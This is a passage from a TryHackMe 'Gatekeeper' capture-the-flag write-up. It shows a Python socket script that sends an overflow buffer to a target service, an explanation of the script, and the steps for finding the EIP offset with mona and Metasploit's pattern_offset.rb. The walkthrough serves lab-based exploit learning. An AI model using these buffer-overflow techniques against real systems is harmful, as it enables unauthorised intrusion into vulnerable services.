 buffer = overflow + retn + padding + payload

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

we create this script by modifying the exploit we got in  [BufferOverflow Prep](https://tryhackme.com/room/bufferoverflowprep) room on TryHackMe.

so let's understand what this script do.

in the first line we import a python library named as socket then we create two variable name ip and port, and set them to our target value after this we create some other variable we going to need in future work.  In payload variable we specify our 300 byte string created by pattern_create.rb. Then we create a variable name buffer and add all of other variable inside this variable. Using socket we tell that we are going to use ip and port, then i use s.connect for connecting to our target and then print out a string . Then using s.send we send buffer amount in bytes after completeing the task it print out done, in the mean time if crash occur or script stop working then our program print  our Could not connect.
So lets use this script, before using this restart the Immunity Debugger and re-attach gatekeeper.exe script.

Execute the script using command=>

```python3 exploit.py```

after executing the script we saw something like this

![pattern_create.png](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/pattern_create.png)

and when we see in our  Immunity Debugger we found application got crashed.

## Offset

Using mona to calculate the EIP offset, using command :

```!mona findmsp -distance 300```

Output :

![offset-mona-3](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/offset-mona-3.png)

There are other method too for finding offset i.e, using pattern_offset.rb script.

command=>

```/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 300 -q 39654138```

here -l is length  and -q  is query , query is EIP value we got after using above script.

Using this script it shows the offset in just few seconds as you can see in the below image.

![pattern_offset](https://raw.githubusercontent.com/SUNNYSAINI01001/Gatekeeper/main/Screenshot/pattern_offset.png)

```